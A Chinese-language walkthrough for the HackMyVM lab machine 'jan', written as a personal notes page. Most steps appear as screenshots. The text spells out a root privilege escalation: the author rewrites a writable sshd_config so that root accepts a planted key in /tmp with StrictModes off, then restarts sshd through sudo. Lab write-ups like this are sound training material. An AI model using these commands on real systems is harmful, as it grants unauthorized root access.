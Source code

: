 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/hackmyvm_jan.md","permalink":"/安全/靶机/hackmyvm_jan/","title":"hackmyvm_jan"}
---
```


# 主机发现
![Pasted image 20250131110451.png](/img/user/picture/Pasted%20image%2020250131110451.png)
只开了两个端口，22，8080




# web渗透

![Pasted image 20250131112116.png](/img/user/picture/Pasted%20image%2020250131112116.png)
首先提示我们了两个网页

![Pasted image 20250131112141.png](/img/user/picture/Pasted%20image%2020250131112141.png)
![Pasted image 20250131112149.png](/img/user/picture/Pasted%20image%2020250131112149.png)


本来以为是SSRF，弄了半天也没弄出来

下面是看大佬提示发现的：
![Pasted image 20250131123623.png](/img/user/picture/Pasted%20image%2020250131123623.png)

![Pasted image 20250131124950.png](/img/user/picture/Pasted%20image%2020250131124950.png)




# 提权

![Pasted image 20250131131239.png](/img/user/picture/Pasted%20image%2020250131131239.png)
发现有`/sbin/service sshd restart`权限，也就是重启ssh
很明显的提示，应该是在ssh服务上做文章

![Pasted image 20250131133242.png](/img/user/picture/Pasted%20image%2020250131133242.png)
查看ssh配置文件权限
![Pasted image 20250131131355.png](/img/user/picture/Pasted%20image%2020250131131355.png)
发现具有可写权限，更印证了思路

因为我们没有root的密码，我们可以尝试修改配置文件可以支持让我们用公钥连接root

生成一对密钥：
```shell
ssh-keygen -t ed25519 -f ~/.ssh/evil_key
```

**在目标机上创建并填充文件**（例如 `/tmp/mykeys`），将你的公钥写进去。
```shell
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAI...YourKey... user@attackhost" > /tmp/mykeys
chmod 600 /tmp/mykeys
```
现在 `/tmp/mykeys` 这个文件就包含了你的公钥。


修改配置文件：
```txt
# 注意：如果默认 PermitRootLogin 是 no，需要改成 yes 或 prohibit-password (允许公钥登录)。
PermitRootLogin yes

# 确保服务器允许公钥认证
PubkeyAuthentication yes

# 指向你刚才创建的文件
AuthorizedKeysFile /tmp/mykeys

StrictModes no
```

注意，我们是把公钥放在了`/tmp`中，这与 SSH 的严格模式冲突，会导致导致 sshd 不信任其中的公钥。
 即使 `sshd_config` 文件里 `#StrictModes yes` 是注释掉的，OpenSSH 默认仍会把它视为 `yes`。
 只有显式设置 `StrictModes no`，才会允许加载不安全路径下的 authorized_keys 文件


重启服务
```shell
sudo /sbin/service sshd restart
```

现在就可以直接登录上去了
![Pasted image 20250131131945.png](/img/user/picture/Pasted%20image%2020250131131945.png)







